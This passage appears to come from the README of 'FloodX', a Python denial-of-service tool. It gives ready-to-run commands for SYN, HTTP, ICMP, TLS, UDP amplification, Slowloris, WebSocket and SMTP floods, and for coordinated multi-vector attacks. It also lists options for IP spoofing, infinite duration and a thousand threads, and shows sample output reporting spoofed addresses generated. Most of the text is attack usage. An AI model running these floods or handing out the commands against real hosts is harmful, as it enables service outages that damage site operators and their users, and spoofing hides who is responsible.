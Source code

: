 | Vector | Description | Command |
|--------|-------------|---------|
| 🌊 **SYN** | TCP SYN flood | `python main.py syn --target host` |
| 🌐 **HTTP** | HTTP request flood | `python main.py http --target http://host` |
| 🏓 **ICMP** | ICMP ping flood | `python main.py icmp --target host` |
| 🔐 **TLS** | TLS handshake flood | `python main.py tls --target host --port 443` |
| 📡 **UDP** | UDP amplification | `python main.py udp --target host` |
| 🐌 **Slowloris** | Slow HTTP connections | `python main.py slowloris --target host` |
| 🔌 **WebSocket** | WebSocket storm | `python main.py websocket --target ws://host/ws` |
| 📧 **SMTP** | SMTP flood | `python main.py smtp --target host --port 25` |

### 🎯 **Multi-Vector Attacks**
```bash
# Coordinated attack with multiple vectors
python main.py multi-enhanced --target localhost --vectors syn http tls dns --allow-private

# Legacy multi-vector
python main.py multi --target localhost --vectors syn http --allow-private
```

---

## ⚙️ **Configuration Options**

| Option | Description | Example |
|--------|-------------|---------|
| `--target` | Target IP/hostname/URL | `--target localhost` |
| `--port` | Target port | `--port 8080` |
| `--threads` | Concurrent workers | `--threads 1000` |
| `--duration` | Duration (0=infinite) | `--duration 0` |
| `--allow-private` | Allow localhost testing | `--allow-private` |
| `--spoof-ip` | Enable IP spoofing | `--spoof-ip` |

---

## 📊 **Real-Time Statistics**

FloodX provides live monitoring with colored output:

```
[  15.2s] ⚡12,500 pkts 📊823.4 pps 📡25 conn 💾488.3 KB 🔥10 threads ❌2 errs
🎭 Generated 1,894 spoofed IP addresses
🔄 Cycle 3: 2,847 packets, 12 errors
```

---